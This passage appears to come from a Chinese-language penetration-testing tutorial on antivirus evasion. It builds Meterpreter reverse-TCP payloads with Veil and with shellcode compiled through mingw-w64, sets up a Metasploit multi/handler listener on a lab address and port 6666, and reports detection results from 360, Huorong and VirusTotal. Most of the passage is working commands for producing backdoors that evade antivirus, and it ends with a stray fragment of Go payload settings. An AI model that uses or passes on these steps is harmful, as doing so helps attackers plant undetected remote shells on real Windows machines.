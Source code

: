 因为之前已经做过Docker目录映射，所以在宿主机的`/tmp/veil-output/compiled/`目录可直接看到生成的exe文件。

在msf中监听：

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.174.128
msf6 exploit(multi/handler) > set lport 6666
msf6 exploit(multi/handler) > exploit
```

在测试主机执行`payload1.exe`，360和火绒均可以查杀（原po在msf中可上线，360和火绒均不报毒）。

在virustotal.com上查杀率为44/69（原po为44/71）。

360：

![image-20220527100249086](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271002159.png)

火绒：

![image-20220527101107223](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271011302.png)

VT：

![image-20220527101335024](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271013133.png)

### 使用veil+mingw-w64(VT查杀率11/69)

先用veil生成shellcode

```
# veil
Veil> use 1								# 选择使用 Veil-Evasion 模块
Veil/Evasion> use 7						# 选择payload  c/meterpreter/rev_tcp.py
[cs/meterpreter/rev_tcp>>] set LHOST 192.168.174.128
[cs/meterpreter/rev_tcp>>] set LPORT 6666
[cs/meterpreter/rev_tcp>>] generate
```

![image-20220527101615402](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271016580.png)

输入生成文件名为`c_msf`：

![image-20220527101633513](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271016611.png)

先生成一个可以被 msf 利用的 `c_msf.c` 然后用mingw-w64 来编译。

mingw-w64的安装可参考：https://zhuanlan.zhihu.com/p/76613134

若编译报错，可以尝试指定库，生成可执行文件a.exe：

```
gcc c_msf.c -lws2_32
```

![image-20220527112104971](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205271121046.png)


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate
